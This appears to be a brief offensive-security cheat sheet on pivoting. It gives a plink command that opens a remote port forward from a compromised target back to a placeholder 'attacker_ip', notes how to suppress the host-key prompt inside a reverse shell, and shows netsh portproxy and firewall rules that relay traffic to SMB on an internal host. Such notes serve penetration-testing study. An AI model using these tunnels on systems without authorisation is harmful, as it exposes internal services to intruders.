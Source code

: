 # Port Forwarding & Tunneling

## Port Forwarding

### Plink

Source: [http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html](http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html)

Remote port forwarding, setup from target:

```
plink.exe -ssh -l kali -pw ilak -R attacker_ip:attacker_port:127.0.0.1:target_port attacker_ip
```

{% hint style="info" %}
When doing a first connection to a host, plink will ask whether to cache the host key or not. This step may not be seen in a typical reverse shell.

To avoid the interaction, pipe an "`echo y"`: `cmd /c echo y | plink.exe ...`
{% endhint %}

### Netsh

High privilege shell required.

Local port forwarding, setup from relay:

```
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=relay_ip connectport=445 connectaddress=target_ip

# Configuring corresponding Windows firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=relay_ip localport=8888 action=allow
```
